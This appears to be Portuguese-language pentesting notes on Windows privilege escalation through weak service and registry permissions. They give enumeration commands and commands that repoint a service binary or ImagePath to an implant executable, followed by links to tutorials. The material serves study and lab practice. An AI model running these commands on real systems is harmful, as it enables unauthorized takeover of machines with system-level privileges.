 - Permite um usuário com poucos privilégios ter permissão para alterar a configuração de um service. Por exemplo, alterar o binário que um service usa quando inicia...

- Isso mostrará uma lista de cada service e os grupos que têm permissões de gravação para esse service. Fornecer um grupo limitará a saída aos serviços para os quais o grupo tem permissão de gravação:

- ``` C:\> accesschk.exe -accepteula -wuvc "Authenticated Users" * ```
- ``` C:\> accesschk.exe -accepteula -wuvc "Users" * ```
- ``` C:\> accesschk.exe -accepteula -wuvc "Everyone" * ```

- Para ver as configs do service:
- ``` C:\> sc query <service-name> ```
- ``` C:\> sc qc <service-name> ```


- Alterar a config e restart no service
- ``` sc config sshd binPath= "c:\implant\implant.exe" ```
- ``` sc start <service-name> ```


- Alternativas para verificar weak services:
- ```> SharpUp.exe```
- ```> Get-ServiceAcl -Name <SVCNAME> | select -expandproperty Access``` (https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls/)

- Exploration
  - https://juggernaut-sec.com/weak-service-permissions-windows-privilege-escalation/
  - https://www.hackingarticles.in/windows-privilege-escalation-weak-services-permission/
  - https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#permissions
  - https://www.ired.team/offensive-security/privilege-escalation/weak-service-permissions


### A terceira tecnica é modificar permissões dos Registries (weak registry permissions)

- Lista dos services
- ``` C:\> accesschk.exe -accepteula -kwuqsw hklm\System\CurrentControlSet\services > output.txt ```
  - em um cenário real você faz download do arquivo para a attack machine e analisa "offline"

- reconfigurando services vulneraveis:

- Ver os paths do binarios:
- ``` reg query HKLM\SYSTEM\CurrentControlSet\services\ /s /v imagepath ```

- ``` reg add HKLM\SYSTEM\CurrentControlSet\services\<service-name> /v ImagePath /t REG_EXPAND_SZ /d C:\implant\implant.exe /f ```


- Exploration
  - https://cr0mll.github.io/cyberclopaedia/Post%20Exploitation/Privilege%20Escalation/Windows/Misconfigured%20Services/Weak%20Registry%20Permissions.html
  - https://systemweakness.com/windows-privilege-escalation-weak-registry-permissions-9060c1ca7c10
  - https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-modify-permissions
  - https://www.hackingarticles.in/windows-privilege-escalation-weak-registry-permission/
